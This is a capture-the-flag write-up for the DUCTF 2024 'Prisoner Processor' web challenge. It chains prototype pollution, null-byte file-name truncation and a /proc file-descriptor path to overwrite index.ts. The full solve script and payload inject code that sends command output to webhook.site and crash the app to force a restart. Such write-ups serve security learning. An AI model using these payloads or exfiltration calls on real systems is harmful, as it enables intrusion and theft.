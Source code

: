 ```yaml
---
ai_date: 2025-04-27 05:15:50
ai_summary: Prototype pollution vulnerability allows arbitrary file name manipulation and overwriting of 'index.ts', exploiting it to replace with a malicious YAML file and crash the script for restart.
ai_tags:
  - prototype-pollution
  - file-name-manipulation
  - code-injection
created: 2024-07-07T02:38
description: Hijacking the main application
points: 325
solves: 17
title: Prisoner Processor
updated: 2025-07-14T09:46
---
```


## Analysis

```ts [index.ts]
const getSignedData = (data: any): any => {
    const signedParams: any = {};
    for (const param in data) {
        if (param.startsWith(SIGNED_PREFIX)) {
            const keyName = param.slice(SIGNED_PREFIX.length);
            signedParams[keyName] = data[param];
        }
    }
    return signedParams;
};
```

- This is vulnerable to prototype pollution.
- Only parameters starting with `signed.` are checked for signature.

```ts
const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
```

- `outputPrefix` is not defined anywhere, it is our target for pollution.

```ts
const json = JSON.parse(readFileSync(fullPath).toString());
prisoners.push({
    data: json,
    signature: getSignature(getSignedData(json))
});
```

- We can use the examples to build our payload upon.

```sh
#!/bin/bash

cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        bun run start;
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    cp -r /home/bun/backup/app/* /app;
done
```

- This is inviting a crush.

## Attack

### Custom File Name

By polluting `outputPrefix` we can change the output file.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "hewwo\u0000"
}
# {"msg":"hewwo\u0000-5595316e6c23eddd.yaml"}
```

It worked, use null terminator to end the file path prematurely to get rid of the suffix.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720335471/2024/07/a83e996f9b627e9eb808b892a746556f.png)

### Overwrite index.ts

```ts
const BANNED_STRINGS = [
    "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];
```

Everything is great but how do we escape the blacklist?

> My teammate @spipm, was the one who came up with the exact execution of the bypass..
> I got stuck playing with path traversal.

The solution is with proc.

```
"outputPrefix": "../../proc/9/fd/3\u0000"
```

You can find `/proc` targets via the following command.

```sh
$ find /proc -type l -ls | grep index.ts
find: '/proc/tty/driver': Permission denied
   5107188      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/9/fd/3 -> /app/src/index.ts
   5090100      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/18/fd/3 -> /app/src/index.ts
   5090164      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/19/fd/3 -> /app/src/index.ts
   5090228      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/20/fd/3 -> /app/src/index.ts
   5090292      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/21/fd/3 -> /app/src/index.ts
   5106740      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/22/fd/3 -> /app/src/index.ts
   5106804      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/23/fd/3 -> /app/src/index.ts
   5106868      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/24/fd/3 -> /app/src/index.ts
   5106932      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/26/fd/3 -> /app/src/index.ts
   5106996      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/28/fd/3 -> /app/src/index.ts
   5107060      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/30/fd/3 -> /app/src/index.ts
   5107124      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/31/fd/3 -> /app/src/index.ts
   5106453      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/fd/3 -> /app/src/index.ts
find: '/proc/91/task/91/fd/5': No such file or directory
find: '/proc/91/fd/6': No such file or directory
```

### Payload

```python
{
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}
```

- We replace `index.ts` with our generated yml file.
- For our yml to run as js, we use block comments to comment out everything in-between and the last quote.
- Send the flag to our webhook.
- Crash the script so it will be restarted by `start.sh`.

## Solve Script

```python [solve.py]
import requests
s = requests.Session()
target = "https://web-prisoner-processor-3bdc15af869668aa.2024.ductf.dev"
# target = "http://localhost:1337"
d = s.get(f"{target}/examples")
sign = d.json()['examples'][0]['signature']

d = {'data': {
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}, 'signature': sign}

r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
d['data']['signed.__proto__']['outputPrefix'] = "../../../ap\\p/sr\\c/owo-crusher-owo\u0000"
r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
# {"msg":"../../proc/9/fd/3\u0000-f8af8a2374745bb5.yaml"}
# {"msg":"../../../ap\\p/sr\\c/owo-crusher-owo\u0000-afead8be95834c3e.yaml"}

# DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}
```

Again, thanks to my teammate @spipm.
The above solve script is heavily inspired by his.
The halting payload was by my own findings though, (you can probably guess why).